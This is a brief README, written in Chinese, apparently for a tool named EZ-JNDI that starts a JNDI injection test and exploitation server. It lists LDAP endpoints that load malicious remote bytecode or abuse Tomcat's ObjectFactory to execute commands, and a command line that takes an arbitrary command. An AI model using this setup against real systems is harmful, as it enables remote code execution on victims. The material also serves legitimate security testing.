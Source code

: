 # EZ-JNDI
一键启动JNDI测试/利用环境。

```text
ldap://0.0.0.0:1099/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://0.0.0.0:1099/Tom --> 使用Tomcat本地ObjectFactory执行命令
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

![img.png](img/img.png)

![img.png](img/img2.png)

TODO:
- 直接返回序列化数据